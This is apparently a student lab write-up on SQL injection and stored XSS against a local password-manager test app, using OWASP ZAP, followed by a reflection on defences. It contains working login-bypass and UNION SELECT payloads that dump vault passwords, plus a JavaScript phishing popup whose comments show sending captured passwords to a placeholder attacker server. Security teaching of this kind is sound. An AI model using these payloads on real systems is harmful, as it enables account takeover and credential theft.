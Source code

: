 # W7 | Injection & XSS Testing

## Introduction  
Web applications live and die by how they handle user input—and in this lab, you’ll discover what happens when that input isn’t properly validated.

We’ll test two of most common web vulnerabilities:
- **SQL Injection** which targets the database layer by manipulating queries
- **Cross-Site Scripting (XSS)** which injects malicious scripts into web pages

Using **OWASP ZAP** we’ll scan the app to find vulnerabilities then manually craft input to exploit them—altering data, injecting scripts, demonstrating risks of insecure input handling.

- Use **ZAP** to identify injection vulnerabilities
- Perform real SQLi and XSS attacks on a test system
- Learn how to prevent them through validation and sanitization

By the end, we’ll understand why **input handling** is one of the most critical aspects of web security and how to defend against these attacks in the wild.

## Steps
1. Download ZAP, enable configurations in computer settings to open. 
2. Select “Automated Scan”, enter password manager url https://localhost to begin attack.
3. In the top menu set view to “Reponses” and “Alerts” and let system run for 10 minutes.
4. Once a high alert (red flag) “SQL Injection” vulnerability is found, study the report to see which type of SQL injection can be used for the username in the login page.
**Log in as Admin without using their password**
5. Use the query ' and 0 in (select sleep(15) ) – and random password to bypass the login page.
6. Explore pages, and logout.
7. Login as the Admin without a password using a similar approach. Admin’ --#
8. Logout, login as “Username” with proper credentials.

**Find a way to retrieve all VAULT passwords from database**
9. Navigate to Vaults page.
10. In the search field input the following injection: ‘UNION SELECT username, password FROM vault_passwords-- -
11. Press enter to see all vault passwords load.

**Create false pop-up asking victim for confidential info whenever they access a vault**
12. Reload page to clear the search field.
13. Navigate to a vault, click on “Edit password”.
14. In the “Notes” field paste the JS payload that will create a fake popup asking for sensitive information.
<script>
    var phishing_prompt = prompt("Security Alert: For your protection, please re-enter your VAULT password.");
    if (phishing_prompt) {
        // In a real scenario, you would send 'phishing_prompt' to an attacker-controlled server.
        // For demonstration, we'll just show an alert with the entered data.
        alert("Captured data (for demo): " + phishing_prompt + "\n(In a real attack, this would be sent to the attacker.)");

        // To send it to an attacker server (similar to Task 2):
        // var attacker_server_url = 'https://YOUR_ATTACKER_SERVER_URL/log_phish'; 
        // new Image().src = attacker_server_url + '?phished_data=' + encodeURIComponent(phishing_prompt);
    }
</script>
15. Click “Update Password” to save and have a partner navigate to the vault to edit details. 
16. Tne JS embedded in the “Notes” field will popup automatically, asking for their vault password. 
17. If they enter information an alert box will show the captured data.
<img width="80%" alt="image" src="https://github.com/user-attachments/assets/2b061cdf-d198-415e-a295-abf95a67a42b" />

*Retrieving all Vault passwords with SQLi*

<img width="100%" alt="image" src="https://github.com/user-attachments/assets/245ba557-bca0-4a70-a03c-d3c54cc1cb49" />

*Malicious payload and popup asking user for crential information*

## Reflection
These attacks occurred due to improper input validation and output encoding. The **application is vulnerable** to SQL injection because user input like usernames and passwords (login.php), data added to vaults (vault_details.php) is **directly linked to SQL queries without being properly sanitized or parameterized**. The application treats user input as part of executable SQL code, allowing attackers to **inject malicious commands to alter the database**. Although it didn’t explicitly show in the ZAP alert log, in theory this application is also vulnerable to XSS shown by the pop up attack, where user given data is stored in the database without proper sanitization. When this stored data is later retrieved and displayed in the browser it fails to run adequate output encoding. The browser interprets the malicious embedded JS as executable code and runs the script.

The concepts that relate most to this lab are: **input validation, output encoding, POLP, defense in depth**. Input validation emphasizes that all user input should be validated and sanitized at the point of entry to ensure it obeys the expected formats, yet both SQL injection and XSS fail to implement robust input validation. Applying **Zero Trust, “never trust, always identify”**, data from untrusted sources(user inputs) should be properly encoded to confirm injected scripts are treated as data not active code. POLP decreases the attack surface by granting minimum access needed to perform tasks. This relates to when the Admin login was bypassed with queries, granting excessive privileges. Another way to **harden the password application is to implement multiple security controls**. If input validation fails, output coding could have served as a secondary defence against XSS.

**FancyBear**, a state sponsored Russian spy hacker group, was found targeting Ukraine related organizations since 2023 by **exploiting cross site scripting in vulnerable webmail servers(Roundcube). The attack injects malicious JS payloads into email messages**, so when victims like government entities open them the hidden JS executes. This allows attackers to steal confidential information(contacts, email content) leading to data theft and spying through client side code injection.
A similar XSS attack can be done on the password application by exploiting the stored XSS vulnerability in the vault details functionality. The vault_details.php file is susceptible because it directly stores user supplied input (Notes field) into the database without proper sanitization, and renders the content back into the user’s browser without output encoding. Like demonstrated above an attacker could inject a malicious JS payload into the password editor Notes field. When another user views that vault entry the injected script would execute in their browser, mirroring FancyBear’s method. This script could be used to capture the victim's session cookies (session hijacking) or extract sensitive information displayed to transmit it to an attacker server with the user unaware. This shows how unvalidated input and lack of output encoding can transform a harmless text box into a powerful attack point for extracting data and compromising accounts.

<img width="50%" alt="image" src="https://github.com/user-attachments/assets/3f0ebd2c-271e-4eb8-b2e7-468f639a6d06" />
